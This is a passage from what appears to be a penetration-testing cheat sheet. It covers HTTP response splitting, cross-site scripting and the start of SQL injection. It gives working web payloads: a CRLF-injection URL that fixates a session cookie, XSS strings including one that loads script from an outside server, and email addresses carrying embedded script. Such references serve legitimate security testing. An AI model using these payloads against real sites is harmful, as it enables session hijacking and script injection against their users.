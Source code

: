 | -M | HTTP Method to use when using the 'http' module (GET, POST, HEAD, COPY, MOVE, default: GET) |
| -b | Break after the first vulnerability is found |
| -C | Continue if no data was received from host |

### HTTP Response Splitting

Also known as CRLF injection. CRLF refers to carriage return (`ASCII 13`, `\r`) and line feed (`ASCII 10`, `\n`).

Fixate a session cookie:

```fundamental
somesite.com/redirect.asp?origin=somesite.com%0D%0ASet-Cookie:%20ASPSESSION=123456789
```

When encoded, `\r` refers to `%0D` and `\n` refers to `%0A`.

Session fixation is one of many techniques used in combination with HTTP response splitting. Search the Internet for more information.

### Cross-Site Scripting (XSS)

Simple cross-site scripting (XSS) examples:

```html
<script>alert(1)</script>

<script src="https://myserver.com/xss.js"></script>

<img src="https://github.com/favicon.ico" onload="alert(1)">
```

Hosting JavaScript on [Pastebin](https://pastebin.com) doesn't work because Pastebin returns the plain text content type.

Find out more about reflected and stored cross-site scripting (XSS) attacks, as well as cross-site request forgery (XSRF/CSRF) attacks from my other [project](https://github.com/ivan-sincek/xss-catcher).

Valid emails with embedded XSS:

```html
user+(<script>alert(1)</script>)@somedomain.com

user@somedomain(<script>alert(1)</script>).com

"<script>alert(1)</script>"@somedomain.com
```

### SQL Injection

**The following examples were tested on MySQL database.**

Try to produce database errors by injecting a single-quote, back-slash, double-hyphen, forward-slash, or period.
